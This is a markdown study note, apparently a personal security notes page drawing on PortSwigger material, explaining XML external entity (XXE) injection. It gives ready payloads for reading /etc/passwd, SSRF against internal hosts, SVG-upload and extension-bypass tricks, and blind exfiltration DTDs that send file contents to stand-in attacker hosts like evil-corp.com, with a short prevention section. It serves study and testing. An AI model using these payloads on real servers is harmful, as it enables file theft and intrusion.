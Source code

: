 # XML external entity (XXE) injection :syringe:

Uses XML data processing by a server to execute attacks against a server.  Can allow an attacker to:

- Read files on the server;
- Compromise the server; or
- Execute SSRF attacks.

Attacks occur when applications use XML to transmit data and do not disable potentially dangerous processing of XML entities.

:bulb: This type was more prevelant before JSON became the dominant data transfer format, but it is still sometimes exploitable.

## XML refresher

- `XML entities`: represent special characters in XML documents such as `&amp;`, `&gt;` and `&lt;`.
- `Document type definition (DTD)`: defines the structure of an XML document.  DTD is defined using a `DOCTYPE` tag.
- `XML custom entity`: define a custom entity in a DTD: `<!DOCTYPE foo [ <!ENTITY bar "bambaz" > ]>` which will cause `&bar;` to be replaced with the value `bambaz`.
- `XML external entity`: define an external entity in a DTD using the `SYSTEM` keyword.  They can be referenced from a local file or URL: 
```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

Most XXE attacks are caused by XML external entities.

## XXE attacks

- `Retrieve file contents`: 
```xml
# Return the contents of `/etc/passwd`
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
```
- `Perform SSRF attack`: 
```xml
# Return contents of `http://internal-website.com`
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://internal-website.com" > ]>
```
- `Blind XXE to exfiltrate data`: 
```xml
# Cause the contents of `/etc/passwd` to be send to http://evil-corp.com
<!DOCTYPE foo [ <!ENTITY % file SYSTEM "file:///etc/passwd" >
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://evil-corp.com/?x=%file;'>"> %eval; %exfiltrate; ]>`
```
- `Blind XXE to retrieve data via error messages`: attacker triggers an XML parsing error that leaks sensitive data.

:bulb: When testing for XXE vulnerabilities, you will often need to test each node of the XML document to see if it is vulnerable.

### Retrieve file contents

Attacker must introduce or edit the DOCTYPE.  For example, an XML request that gets stock levels:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>

# Alter to include a doctype that references a local file with a new `&xxe;` entity
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### Perform SSRF attack

Induce the application to make a request and return the resonse from an internal system:

```xml
# Reponse will include response from http://internal.vulnerable-website.com/ if output is displayed to the user
# Otherwise, this is a blind XXE attack
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### XXE via file upload

If an application allows XML to be uploaded.  This can include SVG files, which are XML.  For example, an SVG file that displays a message:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="0" y="15" fill="red">&xxe;</text>
</svg>
```

It may also be possible to cause the server to accept an SVG file even if it only accepts PNG or JGP image types by changing the file extension:
```sh
# null byte and semicolon termination
malicious.svg%00.jpg
malicious.svg;.jpg`
```

### XXE via modified content type

Although an application may expect to receive request payloads in a specific type, it may be tolerant of XML payloads:

```http
# Expected format
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar

# Tolerates XML instead, at which point, XXE attacks can be attempted
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

### Blind XXE

Detect blind XXE by:

- using out-of-band testing; or
- triggering XML parsing errors.

#### Out-of-band testing (OAST)

The following will make a very specific request to a server controlled by the attacker which will be seen in the logs:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

It may be possible to bypass XML parsing hardening using parameter entities as well:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

#### Exfiltrating data using blind XXE

Attacker defines a malicious DTD hosted at `http://web-attacker.com/malicious.dtd`:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

They can then submit the following XML payload to a vulnerable application:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe; ]>
```

:bulb: this type of attack may be blocked by responses that contain newline characters.  Sometimes this can be bypassed using the FTP protocol rather than HTTP.

#### Retrieving data via XML parsing errors

Attacker defines a malicious DTD hosted at `http://web-attacker.com/malicious.dtd`:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Submitting the following to a vulnerable application will cause an XML error that leaks the contents of `/etc/passwd`:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe; ]>
```

#### Reporposing a local DTD

If external entity resolution is disabled, you may be able to redefine a custom entity within a local DTD on the target system.

1. Find a suitable local DTD file by searching for `*.dtd` files:

```xml
# This will issue an error if the local DTD does not exist
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
%local_dtd;
]>
```

2. Redefine a custom entity within the local DTD:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

## Finding XXE injection vulnerabilities

- `Requests contain XML data`: these are obvious vectors for XXE attacks.
- `XInclude attacks`: occur when the application includes your request in another XML document.  Since you do not control the entire document, a new `DOCTYPE` cannot be added.  However, `XInclude` still allows for XXE:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
- `File retrieval`: test for well known OS file retrieval such as `/etc/passwd` or `/etc/hosts`.
- `Blind XXE to trigger SSRF`: send requests to systems you control and watch for requests in the logs.


## Prevent

- Disable as many XML processing features as possible.
- Usually disabling external entity resolution and `XInclude` is enough.

## Tools

## References

- https://portswigger.net/web-security/xxe
- https://portswigger.net/web-security/xxe/blind
- https://portswigger.net/web-security/xxe/xml-entities